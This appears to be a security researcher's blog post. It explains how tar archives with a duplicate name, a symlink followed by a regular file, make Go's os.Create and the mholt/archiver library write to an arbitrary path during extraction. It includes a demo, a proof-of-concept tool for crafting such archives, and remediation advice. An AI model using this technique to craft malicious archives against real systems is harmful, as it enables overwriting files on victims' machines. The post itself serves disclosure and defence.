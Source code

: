 ```yaml
---
title: "Sweet combination: Link-write Attack during extraction"
draft: false
date: 2024-08-09T11:20:36+02:00
tags:
- attack
- tar
- golang
- python
---
```


I've recently been working on some exciting development projects, including a deep dive into archive extraction. During this work, I discovered some fascinating behaviours that I'm thrilled to share with you in the following sections.

<!--more--> 

_**TL;DR:**_ Tar archives can contain multiple entries with the same filename. It is important to note that Golang follows symlinks while calling [`os.Create(name string) (*File, error)`](https://pkg.go.dev/os#Create). This combination can lead to arbitrary writes during file extraction.

## Observations

### Repeating name in tar files

First of all, an archive can contain multiple entries with the same name. Lets take for example the tar file `alice.tar` (created with [ref](https://go.dev/play/p/7TjHUzQLuL8)). The file contains two entries:

```shell
$ tar ztvf alice.tar
lrw-------  0 0      0           0  1 Jan  1970 rabbit_hole -> /tmp/wonderland
-rw-r--r--  0 0      0          39  1 Jan  1970 rabbit_hole

```

The first entry is a symlink, the second is a legit text file. If this archive is extracted with the `tar` cli, the symlink  is extracted and afterwards replaced by the text file:

```shell
$ tar xvf alice.tar
x rabbit_hole
x rabbit_hole

$ ls -l
total 24
-rw-r--r--  1 jan  staff   2,5K  9 Aug 17:33 alice.tar
-rw-r--r--  1 jan  staff    39B  1 Jan  1970 rabbit_hole

$ file rabbit_hole
rabbit_hole: ASCII text, with no line terminators
```

Let's keep that behavior for now in mind and let us step to the next interesting observation.

### File creation in Golang

Files can be created in Golang with [os.Create(name string) (*File, error)](https://pkg.go.dev/os#Create). Data can then be written to the file and it can be closed. [The documentation says](https://pkg.go.dev/os#Create:~:text=Create%20creates%20or%20truncates%20the%20named%20file.%20If%20the%20file%20already%20exists%2C%20it%20is%20truncated.%20If%20the%20file%20does%20not%20exist%2C%20it%20is%20created%20with%20mode%200666%20(before%20umask).):

> Create creates or truncates the named file. If the file already exists, it is truncated. If the file does not exist, it is created with mode 0666 (before umask).

The interesting thing about this function is that the given `name` can be an existing file (or even better: a symlink!). My first expectation was that the symlink would be replaced/truncated and replaced with the contents of the file - similar to `tar`cli behaviour.

I implemented such behaviour in [Golang](https://go.dev/play/p/kunYCVn-_Zp) and in [Python](https://www.online-python.com/WAhSH75ia2) and it turned out that if we pass a symlink to the create function, the symlink is traversed and the content is written to the target!

Funny, right? 😃

## Verification of assumption

To verify my assumption, I picked a wide-spread existing OSS extraction implementation for archives in Golang – [mholt/archiver@v3](https://github.com/mholt/archiver/tree/v3-deprecated) – which is straightforward to use ([full code example](https://go.dev/play/p/NPqSWEOWphV)):  

```golang
// parse command line arguments
input := os.Args[1]
output := os.Args[2]

// unarchive the file
archiver.Unarchive(input, output)

// print the result
fmt.Printf("Unarchived %s to %s\n", input, output)
```

If we use this simple code snipped to extract our previous crafted archive, we get following result:

```
$ go run ./main.go alice.tar .
Unarchived alice.tar to .

$ ls -l
total 24
[...]
-rw-r--r--  1 jan  staff   299B  9 Aug 18:31 main.go
lrwxr-xr-x  1 jan  staff    15B  9 Aug 18:38 rabbit_hole@ -> /tmp/wonderland

$ cat /tmp/wonderland
Hello Alice, welcome to the wonderland!

```

So, we are capable of archiving an arbitrary write to the filesystem, by traversing the link during the file creation process.



## PoC tool: golinkwrite

If you want to create a potential malicious archive, feel free to use [NodyHub/golinkwrite](https://github.com/NodyHub/golinkwrite) to craft your own tar archives with double entries: 

```shell
$ echo 'Hello Alice :wave:!' | tee rabbit_hole.txt
Hello Alice :wave:!

$ golinkwrite -v rabbit_hole.txt /tmp/hi.txt alice.tar
time=2024-08-09T19:11:35.266+02:00 level=DEBUG msg="command line  parameters" cli="{Input:rabbit_hole.txt Target:/tmp/hi.txt Output:alice.tar Verbose:true}"
time=2024-08-09T19:11:35.266+02:00 level=DEBUG msg="input permissions" perm=-rw-r--r--
time=2024-08-09T19:11:35.266+02:00 level=DEBUG msg="input size" size=20
time=2024-08-09T19:11:35.266+02:00 level=INFO msg="tar file created" output=alice.tar

$ tar ztvf alice.tar
lrw-r--r--  0 0      0           0  1 Jan  1970 rabbit_hole.txt -> /tmp/hi.txt
-rw-r--r--  0 0      0          20  1 Jan  1970 rabbit_hole.txt
```

## Remediation

The root-cause of this behaviour is that symlinks are traversed during extraction. You can either implement your own checks or use Google's implementation: [google/safearchive](https://github.com/google/safearchive) to ensure that symlinks from an archive are not traversed during extraction. More details can be found in the blog post [The Family of Safe Golang Libraries is Growing!](https://bughunters.google.com/blog/4925068200771584/the-family-of-safe-golang-libraries-is-growing).